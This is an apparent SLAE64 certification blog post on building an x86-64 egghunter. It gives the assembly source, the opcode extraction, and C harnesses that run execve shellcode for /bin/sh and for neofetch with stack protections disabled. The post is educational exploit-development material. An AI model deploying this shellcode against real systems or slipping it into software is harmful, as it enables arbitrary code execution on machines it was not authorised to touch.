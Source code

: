 ```yaml
---
title: SLAE64 - Assignment 3 - Egghunter
author: fwinsnes
date: 2021-01-24 13:44:00 +0800
categories: [SLAE64]
tags: [assembly, shellcoding]
---
```


#### Introduction

These series of posts starting with the prefix "SLAE64 - Assignment" will be created in order to fulfill the requirements of the SLAE64 certification. Today we are going to have a close look at Egghunters. 

An Egghunter is a form of malware, commonly used during Exploit-Development sessions in order to process bigger shellcode when there is low space available. The process is quite 
simple, this will search for a specific tag within the memory. When found, the flow will be passed upon the instructions following the tag, executing the original shellcode. 

The third assignment from the seven requires the creation of an Egghunter through the Assembly language, and converting such into [shellcode](https://es.wikipedia.org/wiki/Shellcode). Moreover, it is required to test such.

##### Methods

In order to create an Egghunter shellcode, there are several paths. However, as the time goes on, newer techniques are implemented that make shellcoding easier. I have chosen to 
cover a modern method which is fast, and tends to be very small regarding size. This method obeys the following procedure:

+ RCX is chosen as the register to compare with the tag.
+ The tag is saved on RBP. This tag will not be hardcoded.
+ RCX is incremented.
+ RBP is compared against RCX.
+ If the Zero flag (ZF) hasn't been set, repeat this loop.
+ Give RCX the value of RCX+8, in order to jump exactly within the shellcode and not the tag.
+ Jump to RCX.

Code:

```term
global _start

_start:

       inc rdx                     ; Increments RDX.
       push rdx                    ; Pushes the value of RDX into the Stack.
       pop rcx                     ; Pops the top of the Stack into RCX.

       mov rbp, 0x5756575657565756 ; Original tag should be 0x4645464546454645.
       mov rbx, 0x1111111111111111 ; Gives the value "0x1111111111111111" to RBX.
       sub rbp, rbx                ; RBP is substracted by RBX.

main:

       inc rcx                     ; RCX is incremented.
       cmp rbp, [rcx]              ; RBP is compared against RCX.
       jnz main                    ; Jump to main if the Zero flag (ZF) hasn't been set.

       lea rcx, [rcx + 8]          ; Copy RCX+8 into RCX.

       jmp rcx                     ; Jump into RCX.
```

Let's assemble this, link it, and get its shellcode.

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d 1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo 
\x48\xff\xc2\x52\x59\x48\xbd\x56\x57\x56\x57\x56\x57\x56\x57\x48\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x48\x29\xdd\x48\xff\xc1\x48\x3b\x29\x75\xf8\x48\x8d\x49\x08\xff\xe1
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$
```

###### C format

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\x48\xff\xc2\x52\x59\x48\xbd\x56\x57\x56\x57\x56\x57\x56\x57\x48\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x48\x29\xdd\x48\xff\xc1\x48\x3b\x29\x75\xf8\x48\x8d\x49\x08\xff\xe1"

;

unsigned char code[] = \
"\x45\x46\x45\x46\x45\x46\x45\x46"
"\x48\x31\xc0\x48\x31\xf6\x48\x31\xdb\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

;

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$ gcc egghunter-x86_64.c -o egghunter-x86_64 -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3$ ./egghunter-x86_64 
Shellcode size:  44
Egg size:  42
$
```

As exactly as in the [x86 version of this post](https://whitecr0wz.github.io/posts/SLAE-Egghunter/), it was required that the egghunter had to be configurable for distinct payload. Due to the reason that the only thing required is the tag, this is rather easy, let's test it with an execve shellcode that executes neofetch.

###### C format #2

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\x48\xff\xc2\x52\x59\x48\xbd\x56\x57\x56\x57\x56\x57\x56\x57\x48\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x48\x29\xdd\x48\xff\xc1\x48\x3b\x29\x75\xf8\x48\x8d\x49\x08\xff\xe1"

;

unsigned char code[] = \
"\x45\x46\x45\x46\x45\x46\x45\x46"
"\x48\x31\xc0\x50\x48\xbb\x6e\x65\x6f\x66\x65\x74\x63\x68\x53\x48\xbb\x75\x73\x72\x2f\x62\x69\x6e\x2f\x53\x48\xbb\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x2f\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

;

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame #2

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3/2$ gcc neofetch.c -o neofetch -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3/2$ ./neofetch 
Shellcode size:  60
Egg size:  42
       _,met$$$$$gg.          whitecr0wz@SLAE64
    ,g$$$$$$$$$$$$$$$P.       -----------------
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64
 ,$$P'              `$$$.     Host: VirtualBox 1.2
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-13-amd64
`d$$'     ,$P"'   .    $$$    Uptime: 8 mins
 $$P      d$'     ,    $$P    Packages: 475 (dpkg)
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3
 $$;      Y$b._   _,d$P'      CPU: Intel i5-8300H (1) @ 2.304GHz
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter
 `$$b      "-.__              Memory: 66MiB / 987MiB
  `Y$$
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

whitecr0wz@SLAE64:~/assembly/assignments/Assignment_3/2$
```

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE64-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/SLAE64/Assignment_3).
